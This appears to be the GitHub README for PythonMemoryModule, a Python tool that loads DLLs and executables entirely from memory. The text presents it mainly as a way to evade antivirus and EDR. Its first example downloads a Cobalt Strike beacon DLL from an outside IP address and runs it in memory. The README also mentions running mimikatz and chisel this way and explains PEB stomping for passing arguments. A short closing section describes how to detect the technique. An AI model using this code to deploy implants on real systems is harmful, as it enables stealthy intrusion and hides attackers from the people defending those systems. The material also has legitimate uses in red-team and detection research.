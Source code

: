 ![Supported Python versions](https://img.shields.io/badge/python-3.7+-blue.svg) [![Twitter](https://img.shields.io/twitter/follow/naksyn?label=naksyn&style=social)](https://twitter.com/intent/follow?screen_name=naksyn)

# PythonMemoryModule
pure-python implementation of MemoryModule technique to load a dll or unmanaged exe entirely from memory

<p align="center">
<img width="399" alt="immagine" src="https://user-images.githubusercontent.com/59816245/210533889-424707d3-2c82-4ca3-afaf-cc19857fa2d6.png">
<br>
"Python memory module" AI generated pic - hotpot.ai 
</p>



# What is it

PythonMemoryModule is a Python ctypes porting of the [MemoryModule](https://www.joachim-bauch.de/tutorials/loading-a-dll-from-memory/) technique originally published by [Joachim Bauch](https://github.com/fancycode/MemoryModule). It can load a dll or unmanaged exe using Python without requiring the use of an external library (pyd) and has (partial) support for commandline parameters passing.
It leverages [pefile](https://github.com/erocarrera/pefile) to parse PE headers, [PythonForWindows](https://github.com/hakril/PythonForWindows) to access process parameters, and ctypes for the heavy lifting. 
The tool was originally thought to be used as a [Pyramid](https://github.com/naksyn/Pyramid/) module to provide evasion against AV/EDR by loading dll/exe payloads in python.exe entirely from memory, however other use-cases are possible (IP protection, pyds in-memory loading, spinoffs for other stealthier techniques) so I decided to create a dedicated repo.


# Why it can be useful

 1. It basically allows to use the MemoryModule techinque entirely in Python interpreted language, enabling the loading of a dll from a memory buffer using the stock signed python.exe binary without requiring dropping on disk external code/libraries (such as [pymemorymodule](https://pypi.org/project/pymemorymodule/) bindings) that can be flagged by AV/EDRs or can raise user's suspicion. 
 2. Using MemoryModule technique in compiled languages loaders would require to embed MemoryModule code within the loaders themselves. This can be avoided using Python interpreted language and PythonMemoryModule since the code can be executed dynamically and in memory.
 3. you can get some level of Intellectual Property protection by dynamically in-memory downloading, decrypting and loading dlls that should be hidden from prying eyes. Bear in mind that the dlls can be still recovered from memory and reverse-engineered, but at least it would require some more effort by the attacker.
 4. you can load a stageless payload dll without performing injection or shellcode execution. The loading process mimics the LoadLibrary Windows API (which takes a path on disk as input) without actually calling it and operating in memory.

# How to use it

## Example n.1

In the following example a Cobalt Strike stageless beacon dll is downloaded (not saved on disk), loaded in memory and started by calling the entrypoint. 

```python
import urllib.request
import ctypes
import pythonmemorymodule
request = urllib.request.Request('http://192.168.1.2/beacon.dll')
result = urllib.request.urlopen(request)
buf=result.read()
dll = pythonmemorymodule.MemoryModule(data=buf, debug=True)
startDll = dll.get_proc_addr('StartW')
assert startDll()
#dll.free_library()
```
Note: if you use staging in your malleable profile the dll would not be able to load with LoadLibrary, hence MemoryModule won't work.

![](MemoryModuleCS.gif)

## Example n.2

In the following example we use the commandline passing funcionality to execute chisel in memory.


https://github.com/naksyn/PythonMemoryModule/assets/59816245/cdc91760-1897-450f-9770-1cd2377913c7



## Commandline parameters passing - Partial support

This technique hase been implemented by stomping the Commandline parameter on the PEB at runtime. 
This won't work with every executable since it depends on which functions are used to pass arguments.

Generally, to get a universally working technique would be required to hook GetCommandlineA GetCommandlineW __getmainargs and __wgetmainargs since PEB stomping won't cover all cases, more details [here](
https://blog-30cm-tw.translate.goog/2020/08/windows-c-mainargc-argv.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=it&_x_tr_pto=wapp)

During my testing I found that mimikatz and several go binaries are working just by doing PEB stomping, on the other hand, cmdline passing via PEB stomping alone to mingw and VS compiled binaries won't likely work.

# How to detect it

Using the MemoryModule technique will mostly respect the sections' permissions of the target DLL and avoid the noisy RWX approach. However within the program memory there will be a private commit not backed by a dll on disk and this is a MemoryModule telltale.
